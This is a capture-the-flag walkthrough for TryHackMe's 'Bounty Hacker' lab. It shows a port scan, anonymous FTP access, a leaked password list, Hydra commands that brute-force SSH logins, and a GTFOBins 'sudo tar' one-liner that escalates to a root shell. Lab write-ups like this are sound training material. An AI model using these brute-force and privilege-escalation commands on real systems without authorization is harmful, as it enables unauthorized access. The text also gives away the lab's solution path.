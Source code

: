 ```bash
# PLATFORM          . THM
# CTF NAME          . Bounty Hacker
# DESCRIPTION       . You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/cowboyhacker
```

```bash
sudo nmap -sSVC -T5 10.10.150.34 -p- -oN BountyHacker
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```

- We see that `FTP` allows for `anonymous` login. 

- Let's connect using `ftp -A 10.10.150.34`

```bash
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.

-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

```task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

- The `locks.txt` file seems to be a dictionary of passwords, so I've tried bruteforcing the `ssh` with both `vicious` and `lin` as username.

```bash
hydra -l vicious -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
hydra -l lin -P ~/workspace/ctf_workspace/locks.txt 10.10.150.34 ssh
```

```
[DATA] attacking ssh://10.10.150.34:22/
[22][ssh] host: 10.10.150.34   login: lin   password: {redacted}
```

- Once we're logged in to the machine, I've checked `sudo -l` and we can run `tar` as sudo.

- According to GTFObins, this could lead to a privilege escalation vector by using 

```bash

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- First flag is at `/home/lin/user.txt`
- Second flag is at `/root/root.txt`

